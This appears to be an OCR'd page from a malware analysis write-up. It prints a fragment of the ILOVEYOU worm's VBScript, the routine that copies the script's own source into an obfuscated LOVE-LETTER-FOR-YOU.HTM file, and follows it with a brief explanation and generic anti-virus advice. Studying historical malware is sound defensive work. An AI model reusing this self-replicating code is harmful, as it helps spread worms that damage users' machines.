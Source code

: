 ```vbs
dt1=replace(dt1,chr(64)&chr(45)&chr(64),"""")
dt4=replace(dt1,chr(63)&chr(45)&chr(63),"/")
dt5=replace(dt4,chr(94)&chr(45)&chr(94),"\")
dt2=replace(dta2,chr(35)&chr(45)&chr(35),"'")
dt2=replace(dt2,chr(64)&chr(45)&chr(64),"""")
dt3=replace(dt2,chr(63)&chr(45)&chr(63),"/")
dt6=replace(dt3,chr(94)&chr(45)&chr(94),"\")
set fso=CreateObject("Scripting.FileSystemObject")
set c=fso.OpenTextFile(WScript.ScriptFullName,1)
lines=Split(c.ReadAll,vbcrlf)
l1=ubound(lines)
for n=0 to ubound(lines)
lines(n)=replace(lines(n),"'",chr(91)+chr(45)+chr(91))
lines(n)=replace(lines(n),"""",chr(93)+chr(45)+chr(93))
lines(n)=replace(lines(n),"\",chr(37)+chr(45)+chr(37))
if (l1=n) then
lines(n)=chr(34)+lines(n)+chr(34)
else
lines(n)=chr(34)+lines(n)+chr(34)&"&vbcrlf& _"
end if
next
set b=fso.CreateTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM")
b.close
set d=fso.OpenTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM",2)
d.write dt5
d.write join(lines,vbcrlf)
d.write vbcrlf
d.write dt6
d.close
end sub
```

This code generates a <span style="color:lightgreen">HTML</span> file named <span style="color:lightgreen">LOVE-LETTER-FOR-YOU.HTM</span> with some Javascript and VBScript code included. The HTML seems to be obfuscated and frames it dynamically by replacing characters. 

### Protection 

To protect against viruses like ILOVEYOU, users should prioritize installing reliable <span style="color:lightgreen">antivirus</span> software to regularly scan their systems for potential threats. Additionally, it is crucial to exercise caution when sharing email addresses online, especially on unsecured websites or suspicious platforms. Emails from unknown sources should never be opened, as they may contain harmful attachments or links that could compromise the system's security. If users receive <span style="color:lightgreen">suspicious emails</span>, it is best to refrain from interacting with them and immediately delete them to avoid any potential risk to their computer and personal data. Staying vigilant and informed about cybersecurity practices is essential in safeguarding against virus attacks and maintaining a secure digital environment.
